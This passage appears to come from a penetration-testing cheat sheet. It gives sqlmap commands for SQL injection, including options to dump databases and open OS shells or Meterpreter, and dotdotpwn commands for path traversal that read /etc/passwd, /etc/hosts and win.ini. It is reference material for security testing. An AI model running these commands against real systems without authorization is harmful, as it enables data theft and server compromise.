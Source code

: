 To successfully inject a web shell, the current database user must have a write permission.

### sqlmap

Inject SQL code into request parameters:

```fundamental
sqlmap -a -u somesite.com/index.php?username=test&password=test

sqlmap -a -u somesite.com/index.php --data username=test&password=test

sqlmap -a -u somesite.com/index.php --data username=test&password=test -p password
```

| Option | Description |
| --- | --- |
| -u | Target URL |
| -H | Extra HTTP header |
| --data | Data string to be sent through POST |
| --cookie | HTTP Cookie header value |
| --proxy | Use a proxy to connect to the target URL (\[protocol://\]host\[:port\]) |
| -p | Testable parameter(s) |
| --level | Level of tests to perform (1-5, default: 1) |
| --risk | Risk of tests to perform (1-3, default: 1) |
| -a | Retrieve everything |
| -b | Retrieve DBMS banner |
| --dump-all | Dump all DBMS databases tables entries |
| --os-shell | Prompt for an interactive operating system shell |
| --os-pwn | Prompt for an OOB shell, Meterpreter, or VNC |
| --sqlmap-shell | Prompt for an interactive sqlmap shell |
| --wizard | Simple wizard interface for beginner users |
| --dbms | To do. |

### dotdotpwn

Traverse a path (e.g. `somesite.com/../../../etc/passwd`):

```fundamental
dotdotpwn -q -m http -S -o windows -f /windows/win.ini -k mci -h somesite.com

dotdotpwn -q -m http -o unix -f /etc/passwd -k root -h somesite.com

dotdotpwn -q -m http-url -o unix -f /etc/hosts -k localhost -u 'https://somesite.com/index.php?file=TRAVERSAL'
```

Try to prepend a protocol such as `file://`, `gopher://`, `dict://`, `php://`, `jar://`, `ftp://`, `tftp://`, etc. to the file path; e.g `file://TRAVERSAL`.

Check some additional directory traversal tips at [swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Directory%20Traversal/README.md). Credits to the author!

| Option | Description |
| --- | --- |
| -m | Module (http, http-url, ftp, tftp payload, stdout) |
| -h | Hostname |
| -O | Operating System detection for intelligent fuzzing (nmap) |
| -o | Operating System type if known ("windows", "unix", or "generic") |
| -d | Depth of traversals (default: 6) |
| -f | Specific filename (default: according to OS detected) |
| -S | Use SSL for HTTP and Payload module (not needed for http-url) |
| -u | URL with the part to be fuzzed marked as TRAVERSAL |
| -k | Text pattern to match in the response |
| -p | Filename with the payload to be sent and the part to be fuzzed marked with the TRAVERSAL keyword |